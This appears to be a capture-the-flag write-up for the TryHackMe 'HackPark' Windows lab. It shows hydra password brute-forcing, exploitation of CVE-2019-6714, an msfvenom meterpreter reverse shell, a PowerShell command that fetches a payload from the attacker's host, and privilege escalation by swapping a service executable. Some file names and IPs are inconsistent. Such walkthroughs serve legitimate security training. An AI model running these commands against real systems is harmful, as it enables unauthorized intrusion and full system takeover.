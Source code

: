 ```yaml
---
title: HackPark - Easy THM
date: 2023-12-06 11:34:29 +/-0800 
categories: [writeup, tryhackme] 
writeup: :title
permalink: /hackpark 
tags: [Web]
---
```


- OS: windows
- Difficulty: easy
- Author: talace

## Scanning 👀
### threader3000.py
```
Port 80 is open
Port 3389 is open
```
### Nmap scan
```
nmap -p80,3389 -sV -sC -T4 -Pn -oA 10.10.229.26 10.10.229.26

PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Exploit ⚒️
### Brute force w/ hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.229.26  http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=HO0GkKGhqvanRz8QFeEDnNXtpYtrhxuJvR8jiXGCdzebR5ZKml6%2FQmm8Pr9IQ09Me06CBXD36YPshvECILNgSqaMd2cVEox7T6T%2BqPD%2FwGwQA%2B6ZdW1w8y7BMfNh3Hv9lMtLWs3hYIywZDzxnv7QUGn00fE0YVbK4UBIFNBG5QO0XLreqpuIKgC4Xstaaqfpd%2Bc4osXi0a6Dcox3qv3ZxW3XXpIDIdR85zru8zWcEBL30mwv9u64TXA8JBhN%2FCMQRNkiyWJMffQH%2FS0LK%2FX5cIraHf1kk%2BVtzdP2ruYPPDdz8YCrrKsibTMiWw6xQzKR3QIQdndxtyz94k6Q1cE90hAbH00F9OnMlWEbrmILfyga42Pg&__EVENTVALIDATION=j4urGc3uiZQ8Win7%2F%2F3uenmwf3nfBWF2r5tOm%2Fu6j5vvS0Sog7zxLA0VaodEtKzXPWYhE8AHdM%2BgtMbniCLTx2hQlp7NQPM89GbqrSf6WQSF%2B4BS8QHYzJRYrLSHcA4imlN%2BrIUS%2Beeq8ftqW5oAs7J4J2PSVcA5xE3ZFp0qr2zu03dm&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

### Enumeration of WebApp

I'm able to retrieve the version of the WebApp

With that i've found the CVE-2019-6714
### Exploit of WebApp - [CVE-2019-6714]
First get access on a post
Modify it and click on "add a file"
Configure the LHOST and LPORT
Put the payload in it with the name: PostView.ascx
Open your listener to 4444
Access to the Path **"/?theme=../../App_Data/files"**
## Foothold 🐼

Now that we got an access, let's get a more stable one with msfvenom.

##### 1. Generate our payload
```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.8.138.226 LPORT=4444 -f exe > pwn.exe
```
##### 2. Open a webserver with python 
```
python3 -m http.server 80
```
##### 3. transfer the file into victime machine
```
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"
```
##### 4. Open a listener with metasploit and configure it 
```
set PAYLOAD windows/x64/meterpreter/reverse_tcp

set LHOST 10.10.10.10

set LPORT 4444

run
```
##### 5. Now lunch the payload in the victime machine and get access to the machine!
```
.\pwn.exe
```
## Privilege escalation 👺
Find a interesting services
```
SystemScheduler
```

Let's have a look at the log file
```
cd c:\Program Files (x86)\SystemScheduler\Events
```
We found that the Message.exe is running as Administrator by this service.
Let's replace it and use it as our escalation 😼

##### 1. Rename the file
```
mv Message.exe Message.bak
```
##### 2. Transfer my file and rename into Message.exe
powershell -c "Invoke-WebRequest -Uri 'http://10.8.138.226:80/shell.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

##### 3. Put my session meterpreter in background, run again the listener and wait...

**Yes, we have our session! Now let's retrieve some flag!**
```
cat C:\Users\jeff\Desktop\user.txt
cat C:\Users\Administrator\Desktop\root.txt
```


